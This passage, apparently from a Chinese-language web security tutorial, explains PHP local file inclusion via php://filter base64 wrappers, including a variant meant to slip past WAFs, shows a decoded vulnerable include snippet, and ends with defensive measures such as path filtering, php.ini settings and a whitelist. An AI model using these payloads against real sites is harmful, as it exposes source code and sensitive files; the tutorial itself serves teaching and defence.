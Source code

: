 

利用条件：无甚

姿势：

```
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```



通过指定末尾的文件，可以读取经base64加密后的文件源码，之后再base64解码一下就行。虽然不能直接获取到shell等，但能读取敏感文件危害也是挺大的。
[![img](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/8.png?raw=true)](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20171009/8.png?raw=true)

```
>>> import base64
>>> base64.b64decode("PD9waHAgDQoJJGZpbGUgPSAkX0dFVFsnZmlsZSddOw0KCWluY2x1ZGUgJGZpbGU7DQo/Pg==")
b"<?php \r\n\t$file = $_GET['file'];\r\n\tinclude $file;\r\n?>"
```

其他姿势：

```
index.php?file=php://filter/convert.base64-encode/resource=index.php
```



效果跟前面一样，少了read等关键字。在绕过一些waf时也许有用。





### 文件包含防御

- 在功能设计上不要把文件包含的对应文件放到前台去操作

- 过滤各种../,https://, http://

- 配置php.ini文件
  allow_url_fopen=off

  allow_url_include=off

  magic_quotes_gpc=on 

- 通过白名单策略
  topic.php,image.php

  file=topic.php

  ```
  $allow_file = [
     'topic.php',
     'image.php'
  ];
  if (in_array($_GET['file'], $allow_file)){
  
  }
  ```

